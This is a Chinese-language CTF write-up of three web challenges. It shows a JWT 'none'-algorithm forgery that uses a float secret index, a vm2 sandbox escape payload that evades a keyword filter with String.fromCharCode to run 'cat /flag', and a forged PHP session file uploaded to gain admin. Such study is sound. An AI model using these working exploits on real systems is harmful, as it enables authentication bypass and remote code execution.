







0x00 前言
当时比赛的时候，一共三道 WEB 题，两道 nodejs 的都不会，还有一道 PHP 没来得及看后来看了也不会（还是太菜了
趁题还热乎，借着 dalao 们的 WP 复现一波
0x01 easy_login
由于静态文件的配置问题，有一大波源码泄露（比赛时只看到了这个
只有 admin 可以看到 flag，而我们不能注册名为 admin 的用户，只能想办法伪造
题目都说了错的是依赖库，比赛的时候居然没注意到，这里的关键在于用了 jsonwebtoken 库，重点在登录的代码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
'POST /api/login' : async ( ctx , next ) => {
const { username , password } = ctx . request . body ;
if ( ! username || ! password ) {
throw new APIError ( 'login error' , 'username or password is necessary' );
}
const token = ctx . header . authorization || ctx . request . body . authorization || ctx . request . query . authorization ;
const sid = JSON . parse ( Buffer . from ( token . split ( '.' )[ 1 ], 'base64' ). toString ()). secretid ;
console . log ( sid )
if ( sid === undefined || sid === null || ! ( sid < global . secrets . length && sid >= 0 )) {
throw new APIError ( 'login error' , 'no such secret id' );
}
const secret = global . secrets [ sid ];
const user = jwt . verify ( token , secret , { algorithm : 'HS256' });
const status = username === user . username && password === user . password ;
if ( status ) {
ctx . session . username = username ;
}
ctx . rest ({
status
});
await next ();
},
重点在 jwt 库存在缺陷
当加密时使用的是 none 方法，验证时只要密钥处为 undefined 或者空之类的，即便后面的算法指名为 HS256，验证也还是按照 none 来验证通过
我们只要使这里的 secret 为 undifined 或 null 即可，但 sid 不能为 undefined 或 null
测试发现，当数组索引为浮点数时，得到的结果为 undefined

数组索引为浮点数时返回 undefined
可以用 python 构造 token
1
2
import jwt
print ( jwt . encode ({ "secretid" : 0.1 , "username" : "admin" , "password" : "123" }, algorithm = "none" , key = "" ) . decode ( 'utf-8' ))
发送构造的 token 即可以 admin 身份登录，获得 flag
0x02 just_escape
看起来后缀是 php 实际上后端是 nodejs
1
2
3
4
5
6
7
8
9
10
11
12
13
code=Error().stack;
Error
at vm.js:1:1
at Script.runInContext (vm.js:131:20)
at VM.run (/app/node_modules/vm2/lib/main.js:219:62)
at /app/server.js:51:33
at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
at next (/app/node_modules/express/lib/router/route.js:137:13)
at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
at /app/node_modules/express/lib/router/index.js:281:22
at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
可以看到是用了 vm，GitHub 上有一个逃逸的 payload
但是这里过滤了一些关键字
1
for while process exec eval constructor prototype Function + " '
根据 cg 的 payload，引号可以用 String.fromCharCode 绕过
这里给一个转成这个函数形式的脚本
1
2
3
4
5
6
s = "return process"
payload = "String.fromCharCode("
for c in s :
payload += str ( ord ( c )) + ','
payload = payload . strip ( ',' ) + ')'
print ( payload )
这里被过滤的方法名可以用 JavaScript 的另一种方法调用形式，即将方法名当作数组索引的形式加上 String.fromCharCode 绕过

绕过引号和方法名过滤
最终 paylaod 如下
1
( function (){ try { Buffer . from ( new Proxy ({},{ getOwnPropertyDescriptor (){ throw f => f [ String . fromCharCode ( 99 , 111 , 110 , 115 , 116 , 114 , 117 , 99 , 116 , 111 , 114 )]( String . fromCharCode ( 114 , 101 , 116 , 117 , 114 , 110 , 32 , 112 , 114 , 111 , 99 , 101 , 115 , 115 ))();}}));} catch ( e ){ return e (()=>{}). mainModule . require ( String . fromCharCode ( 99 , 104 , 105 , 108 , 100 , 95 , 112 , 114 , 111 , 99 , 101 , 115 , 115 ))[ String . fromCharCode ( 101 , 120 , 101 , 99 , 83 , 121 , 110 , 99 )]( String . fromCharCode ( 99 , 97 , 116 , 32 , 47 , 102 , 108 , 97 , 103 )). toString ();}})()
成功获得 flag
0x03 babyupload
这个是真 PHP
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
<? php
error_reporting ( 0 );
session_save_path ( "/var/babyctf/" );
session_start ();
require_once "/flag" ;
highlight_file ( __FILE__ );
if ( $_SESSION [ 'username' ] === 'admin' )
{
$filename = '/var/babyctf/success.txt' ;
if ( file_exists ( $filename )){
safe_delete ( $filename );
die ( $flag );
}
}
else {
$_SESSION [ 'username' ] = 'guest' ;
}
$direction = filter_input ( INPUT_POST , 'direction' );
$attr = filter_input ( INPUT_POST , 'attr' );
$dir_path = "/var/babyctf/" . $attr ;
if ( $attr === "private" ){
$dir_path .= "/" . $_SESSION [ 'username' ];
}
if ( $direction === "upload" ){
try {
if ( ! is_uploaded_file ( $_FILES [ 'up_file' ][ 'tmp_name' ])){
throw new RuntimeException ( 'invalid upload' );
}
$file_path = $dir_path . "/" . $_FILES [ 'up_file' ][ 'name' ];
$file_path .= "_" . hash_file ( "sha256" , $_FILES [ 'up_file' ][ 'tmp_name' ]);
if ( preg_match ( '/(\.\.\/|\.\.\\\\)/' , $file_path )){
throw new RuntimeException ( 'invalid file path' );
}
@ mkdir ( $dir_path , 0700 , TRUE );
if ( move_uploaded_file ( $_FILES [ 'up_file' ][ 'tmp_name' ], $file_path )){
$upload_result = "uploaded" ;
} else {
throw new RuntimeException ( 'error while saving' );
}
} catch ( RuntimeException $e ) {
$upload_result = $e -> getMessage ();
}
} elseif ( $direction === "download" ) {
try {
$filename = basename ( filter_input ( INPUT_POST , 'filename' ));
$file_path = $dir_path . "/" . $filename ;
if ( preg_match ( '/(\.\.\/|\.\.\\\\)/' , $file_path )){
throw new RuntimeException ( 'invalid file path' );
}
if ( ! file_exists ( $file_path )) {
throw new RuntimeException ( 'file not exist' );
}
header ( 'Content-Type: application/force-download' );
header ( 'Content-Length: ' . filesize ( $file_path ));
header ( 'Content-Disposition: attachment; filename="' . substr ( $filename , 0 , - 65 ) . '"' );
if ( readfile ( $file_path )){
$download_result = "downloaded" ;
} else {
throw new RuntimeException ( 'error while saving' );
}
} catch ( RuntimeException $e ) {
$download_result = $e -> getMessage ();
}
exit ;
}
?>
重点在这里
1
2
3
4
5
6
7
8
if ( $_SESSION [ 'username' ] === 'admin' )
{
$filename = '/var/babyctf/success.txt' ;
if ( file_exists ( $filename )){
safe_delete ( $filename );
die ( $flag );
}
}
我们需要伪造 session 让自己变成 admin 并且需要创建 success.txt 文件
我们先读取一下 session，名为 sess_PHPSESSID 的文件

读取 SESSION 文件
其内容如下

SESSION 文件的内容
这里要知道 PHP session 序列化的形式（session.serialize_handler）
php 键名 + 竖线 + 经过serialize()函数序列化处理的值
php_binary 键名的长度对应的ASCII字符 + 键名 + 经过serialize()函数序列化处理的值
php_serialize（ php >= 5.5.4 ）经过serialize()函数序列化处理的数组
由于最前边有一个不可见字符，可以判断这里用的是 php_binary
我们发现最后上传的文件名是原文件名 + ‘_’ + 文件名的 SHA256 值，与 session 文件的文件名似乎有点相似
构造一个 php_binary 形式的 session 文件，username 为 admin，注意图中的不可见字符 08（或者用 PHP 直接生成也可以

生成恶意 SESSION 文件
计算一下该文件的 SHA256 值
计算 SESSION 文件的 SHA256 值
上传该 sess 文件

上传 SESSION 文件
然后将 PHPSESSID 改为上面计算的 SHA256 值即可
下一步就是怎么创建 success.txt，直接上传的话文件名后会包含 SHA256 值，但是根据 file_exists 的函数描述，它是检查文件或目录是否存在，我们不好直接上传文件，但是可以创建目录

创建 success.txt 目录
刷新页面即可获得 flag
0x04 完结撒花
一共三道 WEB 有两道 nodejs 着实没想到，对 nodejs 一点都不熟悉，总结一下，还是太菜了
以后要多看看这一类的题，要不然比赛遇到了无从下手就很难受
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}